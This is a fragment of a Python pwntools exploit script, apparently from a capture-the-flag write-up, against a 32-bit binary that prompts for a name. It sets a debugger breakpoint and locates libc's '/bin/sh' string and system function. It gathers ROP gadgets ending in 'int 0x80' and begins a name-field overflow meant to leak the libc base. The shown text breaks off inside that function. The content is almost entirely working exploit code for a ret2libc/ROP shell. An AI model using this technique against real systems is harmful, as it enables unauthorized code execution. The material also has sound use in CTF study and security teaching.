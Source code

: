 ```python
GDB_SCRIPT = '''
b *main-0x9c3+0x965

c
'''

# Constants
IS_DEBUG = False 
IS_REMOTE = True
NAME_LEAK_SIZE = 0x19 if IS_DEBUG else 0x1d
NUMBERS_SIZE = 0x18

# Offsets
LIBC_LEAK_TO_BASE = 0x1b0000

# Addresses
libc = ELF(LIBC)
bin_sh = next(libc.search(b'/bin/sh'))
system = libc.symbols['system']
log.info(f'bin_sh: {hex(bin_sh)}')
log.info(f'system: {hex(system)}')

libc_rop = ROP(LIBC)
pop_eax_ret = libc_rop.eax.address
pop_ebx_ret = libc_rop.ebx.address
pop_ecx_ret = libc_rop.ecx.address
pop_edx_ret = libc_rop.edx.address
leave_ret = libc_rop.find_gadget(['leave']).address
int_80 = libc_rop.find_gadget(['int 0x80']).address
log.info(f'pop_eax_ret: {hex(pop_eax_ret)}')
log.info(f'pop_ebx_ret: {hex(pop_ebx_ret)}')
log.info(f'pop_ecx_ret: {hex(pop_ecx_ret)}')
log.info(f'pop_edx_ret: {hex(pop_edx_ret)}')
log.info(f'leave_ret: {hex(leave_ret)}')
log.info(f'int_80: {hex(int_80)}')

def unsigned(n, bitness=32):
    if n < 0:
        n = n + 2**bitness
    return n

def pad(buf, alignment, delimiter=b'\x00'):
    if (len(buf) % alignment) == 0:
        return buf

    extra = (alignment - (len(buf) % alignment)) * delimiter
    return buf + extra

def splitted(buf, n):
    for i in range(0, len(buf), n):
        yield buf[i: i + n]

def recvPointer(p, sizeof_ptr = 4):
    leak = p.recv(sizeof_ptr)
    assert(len(leak) == sizeof_ptr)
    leak = u32(leak)
    return leak

def get_libc_base(p):
    p.recvuntil(b'What your name :')
    name = b'A' * NAME_LEAK_SIZE
    p.send(name)
    p.recvuntil(b'Hello ' + name[:-1])
```

[glibc-all-in-one]: https://github.com/matrix1001/glibc-all-in-one